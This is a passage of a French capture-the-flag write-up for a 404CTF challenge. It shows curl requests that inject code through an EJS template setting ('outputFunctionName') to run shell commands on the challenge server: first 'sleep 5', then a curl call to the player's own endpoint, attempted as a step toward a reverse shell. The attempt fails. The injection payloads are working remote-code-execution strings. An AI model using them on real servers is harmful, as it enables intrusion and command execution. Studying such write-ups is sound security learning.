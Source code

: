 ```bash
curl -X POST -d "url=https://hackademint.org" -d "settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('sleep 5');s" "https://chanson-d-inde.challenges.404ctf.fr/scene"
```

Parfait, nous arrivons à executer des commandes sur le server.

Nous pouvons maintenant tenter d'obtenir un reverse shell, comme indiqué dans la PoC... mais problème. En essayant de contacter un endpoint qui nous appartient avec la commande suivante :

```bash
curl -X POST -d "url=https://hackademint.org" -d "settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl <mon_endpoint>');s" "https://chanson-d-inde.challenges.404ctf.fr/scene"
```

on obtient :

![Curl Fail](./write_up/CurlFail.png)
